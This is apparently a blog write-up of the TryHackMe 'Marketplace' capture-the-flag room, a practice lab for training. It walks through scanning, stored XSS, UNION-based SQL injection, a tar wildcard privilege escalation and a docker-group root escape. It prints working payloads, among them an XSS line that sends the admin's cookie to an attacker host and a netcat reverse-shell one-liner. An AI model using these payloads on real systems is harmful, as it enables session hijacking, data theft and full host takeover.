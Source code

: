 ```yaml
---
title: Marketplace tryhackme writeup
published: true
---
```


Today I bring you the writeup of [marketplace](https://tryhackme.com/room/marketplace), a tryhackme machine focused on web exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP
```

With -p- we indicate that we want it to look at all ports and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p22,80,32768 --min-rate 5000 IP
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_2.png)

We see that we get the robots.txt with /adminm then we will enter

We investigate ports 80 and 32768 and go to exactly the same web, so we will skip port 32768.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/web_home.png)

If we go to /admin it tells us this

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin.png)

We are going to register a new account to be able to see the product options and so on.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/registrar.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/logeo.png)

Let's enter a product and click on the two options below, the one to report the product and the one to write to the product creator.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/producto.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensage_creador.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_mandado.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/reportar_producto.png)

When reporting we get a message that the admin has checked the product; we have an option to create a product, we go there.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_despues_de_reportar_en_messages.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/new_listing.png)

Let's check if the creation of a product has xss and we could try to steal cookies from the admin when checking a report

```shell
<script>alert(1)</script>
<script>alert(2)</script>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nuevo_producto_con_xss_prueba.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_1_ok.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_2_ok.png)

We see that it is vulnerable, we are going to create another product to steal the cookies, but first we are going to open a python server to get them.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/python_server_para_xss_cookies_al_reportar.png)

Now to make the product for the cookies.

```shell
<img src=x onerror=this.src="http://IP:Port/?c="+document.cookie>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/Producto_roba_cookies.png)

When we enter the product and hit report we will get the admin cookies, now let's change ours for those and go to /admin.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/cookie_admin.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/panel_admin_con_cookies.png)

We are going to enter in some user that we get.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin_user_1.png)

If we see the url we can try a sqli.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/prueba_sqli.png)

It seems vulnerable, let's try to exploit it, with sqlmap I couldn't because the admin cookie changes every x time so you will have to get it again.

Let's see how many fields you have to write to do our tests.

```shell
user=1 order by 4-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/numero%20de%20columnas.png)

Now let's try to get the databases.

```shell
user=0 union select 1,group_concat(0x7c,schema_name,0x7c),3,4 from information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/databases.png)

We are interested in the database marketplace, now let's take out the tables it has.

```shell
user=0 union select 1,group_concat(0x7c,table_name,0x7c),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/tablas.png)

We see a messages table that seems quite interesting since the others are in the admin panel itself, at least, apparently.

```shell
user=0 union select 1,group_concat(0x7c,column_name,0x7c),3,4 from information_schema.columns where table_name='messages'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nombre%20de%20columnas%20de%20tabla%20mensajes.png)

Let's take a look at the message_content to see if it has anything interesting.

```shell
user=0 union select 1,group_concat(0x7c,message_content,0x7c),3,4 from marketplace.messages-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/contenido%20de%20los%20mensajes,%20donde%20hay%20ssh%20password.png)

We see a password, and we have several usernames of accounts created before ours which are:
system
michael
jake

Let's try to connect via ssh to those accounts.

```shell
ssh jake@IP
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/shell%20con%20jake.png)

Let's look at the sudo permissions you have.

```shell
sudo -l
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/sudo%20-l%20jake.png)

We see that you have permissions with the user michael in a script, if we read that script we see that it makes a backup of everything in the /opt/backups folder.

To escalate privileges to michael we can use the [wildcards](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar) of tar so that we get a reverse when we make the backup.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/abrimos%20puerto.png)

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
chmod 777 backup.tar
sudo -u michael /opt/backups/backup.sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/comandos_movimiento_lateral.png)

We get the reverse and we are already michael.

```shell
id
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/grupo%20docker%20para%20escalar.png)

We see that it is inside the [docker](https://gtfobins.github.io/gtfobins/docker/#shell) group, let's use that to escalate privileges.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escalada%20a%20root.png)

And that's all! thanks for reading.
